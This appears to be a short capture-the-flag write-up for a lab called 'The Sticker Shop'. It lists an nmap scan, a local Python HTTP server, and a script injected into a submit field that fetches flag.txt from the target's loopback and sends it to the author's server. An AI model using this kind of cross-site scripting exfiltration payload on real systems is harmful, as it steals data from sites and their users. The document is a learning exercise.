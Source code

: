 # CTF Writeup: The Sticker Shop

1. Step: Scanned Target ip with following command: nmap -A -F -oN nmap.txt <target.ip>  
2. step: port 8080 is open  
3. step: created local python server -> python3 -m http.server <local-ip>  
4. step: looked up website and did html injection in submit field with following code:  
  
<script>  
fetch('http://127.0.0.1:8080/flag.txt')  
  .then(response => response.text())  
  .then (data => {fetch('http://10.10.93.80:8000/?flag=' + encodeURIComponent(data));});  
</script>  
  
5. step: accessed local loopback to gather flag.txt and receive response and converted response into string value, stored in "data" gestored and displayed on my local pythn3 server.  


## My Learnings

### - First Contact with Enumeration Tools like nmap
### - First Contact with creating local hosted servers
### - First Contact with HTML Injections
### - First Experience creating a script, which outputs content locally to our loopback ipv4

